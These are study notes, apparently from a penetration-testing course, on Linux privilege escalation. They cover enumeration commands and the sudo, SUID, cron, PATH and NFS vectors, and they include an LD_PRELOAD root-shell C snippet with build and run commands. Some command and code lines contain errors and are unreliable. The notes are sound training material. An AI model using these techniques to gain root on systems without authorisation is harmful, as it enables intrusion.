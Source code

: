 ```yaml
---
description: Seventeenth section in Jr Penetration Tester learning path.
---
```


# Linux Privilege Escalation

### Introduction

Privilege escalation is the act of moving from a low privilege account to a high privilege account using a vulnerability exploit, design flaw or configuration oversight. Privilege escalation is crucial because it allows you to gain administrative access to a system which can allow:

* Password resets
* Bypass of access controls
* Editing software configurations
* Enabling persistence
* Changing privileges of other users
* Execution of admin commands

### Enumeration

Enumeration is important in post-compromise situations, below are useful commands/locations:

* `hostname` : returns hostname of target, can provide info depending on setup e.g. device may be named SQL-PROD for a production SQL server.
* `uname -a` : print system info about the kernel being used by the system.
* `/proc/version` : procfs (proc filesystem) provides info about target system processes, /version will give info on the kernel version and additional data like whether a compiler is installed.
* `/etc/issue` : contains info about the OS but is easily changed
* `ps` : shows all running processes for current shell, will show PID, TTY (terminal type used by user), Time (amount of CPU time used by process), CMD (command or executable running)
* `ps -A` : all running processes
* `ps axjf` : view process tree
* `ps aux` : show processes for all users - (a) for all users, (u) for user that launched the process and (x) for processes not attached to a terminal
* `env` : show environment variables, the PATH variable may have a compiler or scripting language that can be leveraged
* `sudo -l` : list commands your user can run using sudo
* `ls` : list files
* `ls -la` : list files and show hidden files
* `id` : overview of users privilege and group memberships
* `/etc/passwd` : shows users on system
* `history` : shows earlier commands, rarely can have info like usernames and passwords stored
* `ifconfig` : shows network interface information
* `netstat -a` : show all listening ports and established connections
* `netstat -l` : list ports only in listening mode
* `netstat -at/-au` : show TCP or UDP respectively&#x20;
* `netstat -ano` : display all sockets, do not resolve hostnames and display timers
* `find` : search system for potential escalation vectors
* `find / writeable -type d 2>/dev/null` : find world-writeable folders

### Kernel Exploits

Exploit methodology is simple:

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of target
3. Run exploit

Although it appears simple, a failed kernel exploit can cause a system crash, it is always important to be careful. Before running kernel exploits you should fully understand what they do, some can cause irreversible system changes which cause issues later.

### Sudo Exploits (sudo -l)

Some systems may have the `LD_PRELOAD` environment option, this function allows any program to use shared libraries. If `"env_keep"` is enabled then a shared library can be generated which will be loaded and executed before a program is run. `LD_PRELOAD` will be ignored if the real user ID is different from the effective user ID. The steps can be summarised as:

1. Check for `LD_PRELOAD` (with `env_keep` option)
2. Write C code compiled as a share object (.so extension) file
3. Run program with sudo rights and `LD_PRELOAD` pointing to .so file

The C code which spawns a root shell is:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void_init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

This can be saved as `shell.c` and compiled with gcc into a shared object file:

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

This can then be run with sudo specifying the `LD_PRELOAD` option:

```
sudo LD_PRELOAD=/home/user/preload/shell.so find
```

This will then spawn a shell with root privileges.

### SUID Exploits

The command `find / -type f -perm -04000 -ls 2>/dev/null` will show files that have their SUID or SGID bit set. Best practice is then to compare this against GTFOBins binaries to see if an exploit is available.

### Capability Exploits

Capabilities help manage privileges at a granular level. For example, a binary can have its capability set to allow it to run a task as a higher privilege. The getcap tool can be used to list enabled capabilities with `getcap -r / 2>/dev/null`.

### Cron Job Exploits

A cron job is used to run a script or binary at a specific time, by default, these run with the privilege of their owner and not the current user. Properly configured cron jobs are not inherently vulnerable, but they can provide a privilege escalation vector in some situations.

Cron job configurations are stored as crontabs (cron tables). Each user on the system has their crontab file and can run specific tasks whether logged in or not. Any user can read system wide cron jobs under `/etc/crontab`.

Crontab is always worth checking as it can lead to easy privilege escalation vectors, companies with less mature cyber security can often have situations like:

1. System admins need to run a script at regular intervals
2. They make a cron job for it
3. After some time, the script is not required and deleted
4. The cron job is left uncleaned

### PATH Exploits

If a folder which your user has write permission for is located in the path, you could hijack an application to run a script. PATH tells the OS where to look for executables. Any command not built into shell or not defined with an absolute path, Linux will search folders defined under PATH. Typing echo $PATH will show the PATH. Before attempting this consider:

1. What folders are in $PATH
2. Do you have write privilege for any of these?
3. Can you modify $PATH?
4. Is there a script/app affected by this?

A simple command to search for writeable folders can be done with: `find / -writeable 2>/dev/null`. This can be cleaned with:

```
find / -writable 2>/dev/null | cut -d "/" -f 2 | grep -v proc | sort -u
```

You can add to path by using `export PATH=/folder:$PATH`.

### NFS Exploits

Shared folders and remote management interfaces like SSH and Telnet can also be used to help gain root access on a target. Most relevant in CTFs/exams will be misconfigured network shells.

NFS (Network File Sharing) configurations are kept in `/etc/exports`. This file can usually be read by all users. The critical element in NFS exploits is ensuring that "no\_root\_squash" is set. By default, NFS will change the root user to nfsnobody and strip files from operating as root, however, if "no\_root\_squash" is set, then we can create an executable with an SUID bit and run it.

